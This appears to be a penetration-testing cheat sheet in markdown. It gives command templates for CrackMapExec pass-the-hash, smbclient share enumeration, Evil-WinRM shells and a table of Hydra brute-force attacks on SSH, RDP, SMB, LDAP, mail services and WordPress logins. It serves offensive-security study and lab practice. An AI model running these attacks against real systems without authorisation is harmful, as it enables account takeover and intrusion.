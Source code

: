  # Crackmapexec
## With Password
crackmapexec smb $ip -u '' -p '' --$Flags

## Pass the hashes
```bash
crackmapexec smb $ip -u '' -H '' --$Flags
```
## JohnHammond CME to Self Hosted AD DC
https://www.youtube.com/watch?v=WPnFnPkOWIg&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp&index=6

# Smbclient
## Enumerate shares
```bash
smbclient -L \\$ip\Share -U ''
```
## Enumerate more with Known Username and password 
```bash
smbclient \\$ip\$share_name -U '' -P ''
```


# BloodHound
Installation: https://www.youtube.com/watch?v=yp8fw72oQvY&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp&index=7

# Evil Winrm
```bash
evil-winrm -i $ip -u '' -p ''
```
____________________________________________________________________________________________________________________________________________________________________________
# Hydra
### BruteForce with username and password
```bash
hydra -l '' -p '' ssh://$ip or ftp://$ip
```
### Http post form
```bash
hydra -l '' -p '' http://$ip_Or_domain/ http-post-form ":/"
```
### Others
| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
